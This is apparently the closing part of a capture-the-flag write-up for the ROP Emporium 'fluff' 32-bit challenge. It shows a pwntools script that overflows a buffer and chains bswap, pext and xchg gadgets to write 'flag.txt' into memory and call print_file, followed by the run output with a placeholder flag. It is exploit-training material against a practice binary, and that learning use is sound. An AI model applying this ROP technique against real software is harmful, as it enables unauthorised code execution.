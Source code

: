 ```python
f = (1 << 0) + (1 << 1) + (1 << 3) + (1 << 6) + (1 << 8) + (1 << 9) + (1 << 11) + (1 << 14) # 01100110
l = (1 << 0) + (1 << 2) + (1 << 3) + (1 << 4) + (1 << 6) + (1 << 7) + (1 << 9) + (1 << 10) # 01101100
a = (1 << 1) + (1 << 2) + (1 << 6) + (1 << 8) + (1 << 10) + (1 << 11) + (1 << 12) + (1 << 14) # 01100001
g = (1 << 1) + (1 << 3) + (1 << 4) + (1 << 6) + (1 << 8) + (1 << 9) + (1 << 11) + (1 << 14) # 01100111
dot = (1 << 0) + (1 << 1) + (1 << 3) + (1 << 4) + (1 << 6) + (1 << 7) + (1 << 8) + (1 << 10) # 00101110
t = (1 << 0) + (1 << 2) + (1 << 3) + (1 << 6) + (1 << 7) + (1 << 9) + (1 << 11) + (1 << 14) # 01110100
x = (1 << 0) + (1 << 2) + (1 << 6) + (1 << 7) + (1 << 9) + (1 << 11) + (1 << 12) + (1 << 14) # 01111000

# let's make it into a list so that it is easier to iterate through
chars = [f, l, a, g, dot, t, x, t] # flag.txt

e = ELF("./fluff32")

io = e.process()

print(io.recvuntil(">"))

payload = b"A" * 44

for i in range(8):
    payload += pop_bswap_ecx
    payload += p32(data_addr + i, endian="big")
    payload += pop_ebp
    payload += p32(chars[i])
    payload += pext_edx
    payload += xchg_ecx_dl

# return to print_file
payload += print_file
payload += b"junk"
payload += p32(data_addr)

with open("payload", "wb") as file:
    file.write(payload)

io.sendline(payload)

print(io.recvrepeat())
```

And the flag, of course:
```
voidwalker@Abyss:[fluffx86]** ./exploit.py
[*] '/home/voidwalker/ROPEmporium/fluffx86/fluff32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process '/home/voidwalker/ROPEmporium/fluffx86/fluff32': pid 20246
b'fluff by ROP Emporium\nx86\n\nYou know changing these strings means I have to rewrite my solutions...\n>'
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```
